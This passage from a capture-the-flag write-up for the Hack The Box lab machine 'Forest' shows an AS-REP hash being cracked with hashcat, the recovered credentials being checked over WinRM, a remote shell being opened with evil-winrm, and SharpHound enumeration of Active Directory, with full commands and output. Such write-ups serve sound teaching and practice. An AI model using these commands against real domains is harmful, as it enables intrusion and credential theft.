 AS-REP hash cracked with `hashcat`, revealing weak password `s3rvice`:

```bash
hashcat -m 18200 -a 0 files/roast.txt /usr/share/wordlists/rockyou.txt

...
$krb5asrep$23$svc-alfresco@HTB.LOCAL:b73c81fb8c33164c016884a6be75e669$2beb8c478e9b6f4b0b1ee2aeaba1821f22f189957bf8b9ee4f15f5ac1317a7c3678fd71f9fc0d926a3529dbfed42c26bf119bf475f96a38af3bdb1b0c6085cff57e63015e95b3fec76271c4736df2fb34c46edbca9614f05eee7e8c2c0e524aa2acd07de8a1b17feb7380c29ea75f86f328868bc893b9a36f41ba6f67ff3a02ff4ce1e2784868cc156b91ab5f5aa3a3f91e61fca6b61ab70dbd9e20a0f49a653078d638bf2588ad564c1c91d601cc07f7fc10b0e22f4b5803a0e8540eef8f2e1e9fd3e45525337b6ca0ef27788ae6ef610822c8e0147fd9b39919e8739a872ca3584d7658274:s3rvice
...
```

### Initial Access

Credentials validated for WinRM access:

```bash
nxc winrm 'FOREST' -u 'svc-alfresco' -p 's3rvice' -d 'htb.local'

WINRM       10.10.10.161    5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local) 
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

Remote shell established:

```bash
evil-winrm -i 'FOREST' -u 'htb.local\svc-alfresco' -p 's3rvice'

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```

User flag captured from `svc-alfresco`'s Desktop:

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> more ../Desktop/user.txt
```

---

## Phase 3: Privilege Escalation - BloodHound Analysis

### Data Collection

SharpHound enumeration from compromised account:

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco> .\hound.exe -c all --zipfilename loot.zip

...
 118 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2025-06-14T16:09:59.0652881-07:00|INFORMATION|SharpHound Enumeration Completed at 4:09 PM on 6/14/2025! Happy Graphing!
```

